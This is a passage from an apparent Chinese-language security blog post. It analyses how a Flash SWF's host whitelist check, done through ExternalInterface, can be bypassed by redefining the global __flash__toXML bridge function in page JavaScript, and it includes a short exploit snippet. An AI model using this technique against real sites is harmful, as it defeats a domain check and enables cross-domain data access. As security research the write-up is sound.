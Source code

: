 当然也不是所有的开发人员，都是毫不思索的使用 Security.allowDomain('*') 的。

一些有安全意识的，即使用它也会考虑下当前环境是否正常。例如某个邮箱的 swf 初始化流程：

```
// vul-1.swf
public function Main() {
    var host:String = ExternalInterface.call('function(){return window.location.host}');

    if host not match white-list
        return

    Security.allowDomain('*');
    ...

```

它会在授权之前，对嵌套的页面进行判断：如果不在白名单列表里，那就直接退出。

由于白名单的匹配逻辑很简单，也找不出什么瑕疵，于是只能将目光转移到 ExternalInterface 上。为什么要使用 JS 来获取路径？

因为 Flash 只提供当前 swf 的路径，并不知道自己是被谁嵌套的，于是只能用这种曲线救国的办法了。

不过上了 JS 的贼船，自然就躲不过厄运了。有数不清的前端黑魔法正等着跃跃欲试。Flash 要和各种千奇百怪的浏览器通信，显然需要一套消息协议，以及一个 JS 版的中间桥梁，用以支撑。了解 Flash XSS 的应该都不陌生。

在这个桥梁里，其中有一个叫`__flash__toXML`的函数，负责将 JS 执行后的结果，封装成消息协议返回给 Flash。如果能搞定它，那一切就好办了。

显然这个函数默认是不存在的，是载入了 Flash 之后才注册进来的。既然是一个全局函数，页面中的 JS 也能重定义它：

```
// exp-1.js
function handler(str) {
    console.log(str);
    return '<string>hi,jack</string>';
}
setInterval(function() {
    var rawFn = window.__flash__toXML;
    if (rawFn && rawFn != handler) {
        window.__flash__toXML = handler;
    }
}, 1);

```

通过定时器不断监控，一旦出现就将其重定义。于是用 ExternalInterface.call 无论执行什么代码，都可以随意返回内容了！

为了消除定时器的延迟误差，我们先在自己的 swf 里，随便调用下 ExternalInterface.call 进行预热，让`__flash__toXML`提前注入。之后子 swf 使用时，已经是被覆盖的版本了。

当然，即使不使用覆盖的方式，我们仍可以控制`__flash__toXML`的返回结果。

仔细分析下这个函数，其中调用了`__flash__escapeXML`：

```
function __flash__toXML(value) {
    var type = typeof(value);
    if (type == "string") {
        return "<string>" + __flash__escapeXML(value) + "</string>";
    ...
}

function __flash__escapeXML(s) {
    return s.replace(/&/g, "&amp;").replace(/</g, "&lt;") ... ;
}

```

